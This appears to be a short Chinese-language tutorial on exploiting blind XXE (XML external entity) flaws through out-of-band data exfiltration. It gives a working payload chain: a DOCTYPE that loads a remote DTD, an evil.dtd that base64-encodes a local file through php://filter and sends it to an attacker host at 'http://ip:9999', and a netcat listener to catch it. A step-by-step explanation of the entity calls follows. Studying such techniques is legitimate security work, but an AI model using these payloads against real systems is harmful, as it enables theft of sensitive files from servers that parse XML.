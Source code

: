 ```yaml
---
title: XXE 无回显利用方式总结
id: zhfly3588
---
```


## XXE 无回显利用方式总结

可以使用外带数据通道提取数据，先用file://或php://filter获取目标文件的内容，然后将内容以http请求发送到接收数据的服务器（攻击服务器）

```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]> 
```

##### evil.dtd的内容，内部的`%`号要进行实体编码成`%`

> 这里已经改好了

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY &#37 send SYSTEM 'http://ip:9999?p=%file;'>"> 
```

最后用nc进行本地监听

```
nc -lvv 9999 
```

**整个调用过程：**

我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 `&#37;`)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。
